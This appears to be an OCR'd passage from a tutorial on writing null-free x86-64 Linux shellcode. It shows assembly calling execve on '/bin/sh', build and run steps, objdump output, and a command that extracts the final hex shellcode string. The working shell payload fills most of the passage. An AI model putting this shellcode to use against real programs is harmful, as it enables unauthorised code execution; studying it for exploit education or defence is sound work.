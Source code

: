 ```
           ; rdi now points to a string that equals "/bin/sh"

; Make these values NULL
xor rsi, rsi
xor rdx, rdx

; Call execve()
syscall
```

When we run the program, it does the same thing and gives us a shell prompt.
```sh
$ nasm -f elf64 -o better_shell.o better_shell.asm

$ ld -o better_shell better_shell.o

$ ./better_shell
$ ls
README.md  basic_shell  basic_shell.asm  basic_shell.o  better_shell  better_shell.asm  better_shell.o
$
```

However, now our shellcode does not contain any NULL values.
```sh
$ objdump -D better_shell -M intel

better_shell:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:       48 31 c0                xor    rax,rax
  401003:       b0 3b                   mov    al,0x3b
  401005:       48 31 db                xor    rbx,rbx
  401008:       53                      push   rbx
  401009:       bb 6e 2f 73 68          mov    ebx,0x68732f6e
  40100e:       48 c1 e3 10             shl    rbx,0x10
  401012:       66 bb 62 69             mov    bx,0x6962
  401016:       48 c1 e3 10             shl    rbx,0x10
  40101a:       b7 2f                   mov    bh,0x2f
  40101c:       53                      push   rbx
  40101d:       48 89 e7                mov    rdi,rsp
  401020:       48 83 c7 01             add    rdi,0x1
  401024:       48 31 f6                xor    rsi,rsi
  401027:       48 31 d2                xor    rdx,rdx
  40102a:       0f 05                   syscall

$ for i in $(objdump -m i386:x86-64 -D better_shell |grep "^ " |cut -f2); do printf $i; done; echo
4831c0b03b4831db53bb6e2f736848c1e31066bb626948c1e310b72f534889e74883c7014831f64831d20f05
```
